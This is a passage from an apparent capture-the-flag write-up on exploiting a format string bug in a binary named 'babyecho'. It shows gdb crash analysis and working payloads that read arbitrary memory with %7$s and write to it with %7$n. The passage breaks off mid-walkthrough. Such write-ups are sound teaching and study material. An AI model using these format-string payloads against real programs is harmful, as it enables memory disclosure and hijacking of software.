 ...a crash! And if we investigate the crash:

<pre>
$ <span class='in'>gdb -q ./babyecho ./core</span>
Core was generated by `./babyecho'.
Program terminated with signal SIGSEGV, Segmentation fault.
#0  0x0807f134 in ?? ()
(gdb) <span class='in'>x/i $eip</span>
=> 0x807f134:   repnz scas al,BYTE PTR es:[edi]
(gdb) <span class='in'>print/x $edi</span>
$1 = 0x41414141
</pre>

We determine that it crashed while trying to read edi, which is 0x41414141. And we can use any address we want - for example, I grabbed a random string from IDA - 0x080C1B94 - so let's encode that in little endian and use it:

<pre>
$ <span class='in'>echo -e '\x94\x1b\x0c\x08%7$s' | ./babyecho</span>
Reading 13 bytes
../sysdeps/unix/sysv/linux/getcwd.c
</pre>

It prints out the string! If I really want to, I can chain together a few:

<pre>
$ <span class='in'>echo -e '\x06\x1d\x0c\x08%7$s\n\x1f\x1d\x0c\x08%7$s\n' | ./babyecho</span>
Reading 13 bytes
buffer overflow detected
Reading 13 bytes
stack smashing detected
</pre>

It didn't really detect any of those, of course - I'm just printing out those strings for fun :)

<h2>Arbitrary memory write</h2>

That's an arbitrary memory read. And as a side effect, we've also bypassed ASLR if that's applicable (in this level, it's not really).

Now let's go back to our code that tried to read 0x41414141 ("AAAA%7$s") and change the %..s to a %..n:

<pre>
$ <span class='in'>ulimit -c unlimited</span>
$ <span class='in'>echo -e 'AAAA%7$n' | ./babyecho</span>
Reading 13 bytes
Segmentation fault (core dumped)
</pre>

no surprise there.. let's see what happened:

<pre>
$ <span class='in'>gdb -q ./babyecho ./core</span>
Program terminated with signal SIGSEGV, Segmentation fault.
#0  0x08080c2a in ?? ()
(gdb) <span class='in'>x/i $eip</span>
=> 0x8080c2a:   mov    DWORD PTR [eax],ecx
(gdb) <span class='in'>print/x $eax</span>
$1 = 0x41414141
(gdb) <span class='in'>print/x $ecx</span>
$2 = 0x4
</pre>
